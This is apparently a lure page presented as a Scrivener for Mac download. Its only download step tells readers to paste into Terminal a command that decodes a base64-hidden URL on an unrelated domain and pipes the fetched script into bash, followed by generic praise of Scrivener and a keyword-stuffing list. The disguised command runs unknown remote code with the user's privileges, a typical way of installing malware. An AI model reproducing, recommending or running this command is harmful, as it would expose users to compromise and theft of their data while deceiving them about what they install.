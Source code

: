 # Scrivener for Mac Download - Ultimate Writing Studio

![Scrivener Workspace](https://www.mactrast.com/wp-content/uploads/2021/05/Scrivener-3-1-500x375.jpg)

---

### 🔽 Download Scrivener for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Scrivener for Mac?

Scrivener is a revolutionary writing powerhouse designed exclusively for macOS, transforming how authors, researchers, and content creators craft long-form documents. This isn't just another word processor—it's a complete writing universe where you brainstorm, organize, draft, and polish your masterpiece in one seamless environment.

The magic of Scrivener lies in its ability to handle massive projects with elegance. Whether you're writing a 100k-word novel, a PhD thesis, or a screenplay, Scrivener's unique interface lets you work on individual sections while maintaining a bird's-eye view of your entire project. The software adapts to your creative flow with specialized modes for novelists, academics, journalists, and scriptwriters.

At its core, Scrivener features a groundbreaking project-based approach that keeps all your research, notes, and drafts together in one place. The non-linear structure means you can write scenes out of order, rearrange chapters with drag-and-drop simplicity, and store all reference materials right where you need them. With robust export options, your work transforms effortlessly into professional manuscripts, ebooks, or scripts ready for publication.

![Scrivener Organization View](https://i0.wp.com/hmturnbull.com/wp-content/uploads/2018/07/Scrivener-3-Review_Cover-Image.jpg)

---

## Key Features & Benefits

- ✍️ Distraction-free composition mode  
- 🧩 Corkboard & outliner for visual organization  
- 📚 Integrated research management system  
- 🖥 Split-screen writing and reference viewing  
- 📖 Multi-format export (EPUB, PDF, Word)  
- 🎬 Professional scriptwriting tools  

Whether you're crafting your debut novel, academic paper, or screenplay, Scrivener provides the perfect environment to unleash your creativity while keeping your work impeccably organized.

---

## 🔍 Keywords

Scrivener for Mac, Scrivener Mac Download, Scrivener for Mac Download, Scrivener Mac, Scrivener Download Mac, Scrivener Download for Mac, scrivener full version, Mac Download Scrivener, Download Mac Scrivener, Download Scrivener Mac, Download Scrivener for Mac
